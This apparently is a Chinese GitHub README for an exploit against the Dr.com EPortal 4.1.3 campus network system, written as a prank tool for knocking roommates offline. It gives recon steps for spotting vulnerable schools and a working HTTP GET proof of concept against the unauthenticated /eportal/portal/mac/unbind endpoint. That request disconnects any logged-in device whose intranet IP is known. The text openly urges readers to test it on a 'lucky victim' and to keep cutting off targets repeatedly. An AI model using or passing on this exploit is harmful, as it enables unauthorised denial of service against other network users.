 # Dr.com Eportal校园网管理系统未授权断网漏洞 -附脚本
<img width="800" height="300" alt="image" src="https://github.com/Zaxk1337/DrcomCutdown/assets/164832393/f4107b1c-d880-4688-8a32-921a0b95406d">

# Eportalcutdown

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  你是否受够了室友半夜两三点还在激情csgo？是否受够了每当你正要进入梦乡和小美大战800回合的时候，你的室友突然在游戏中破防爆粗口？<br>
  <br>
  Fine，Using this！<br>
  <br>
  如果你家大学正在使用此款计费系统，那么恭喜你🎉，用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果，如果你足够聪明，你可以自己对脚本进行二次开发，一直让b狗娘养的夜战哥处于断网状态，或者隔三差五给他断网恶心他，还你宿舍一个清明。☝️
 
## 识别Recon
那么如何识别你校是否也存在此漏洞？<br><br>
打开你的校园网认证界面，如果在任意位置你找到了包含*Guangzhou Hotspot Software Technology Co., Ltd* 或者 *本XX系统由广州热点软件科技股份有限公司提供*的Powerby信息，又或者你误打误撞发现了某个带**eportal字符串的路径**<br>
那么🎉con graduation，你所在的校园认证系统中很有可能存在此漏洞。赶紧挑个倒霉蛋试试吧🥚


# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue计算后的ip整数值} HTTP/1.1
Host: {把我换成你家校园网登陆ip地址}:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```
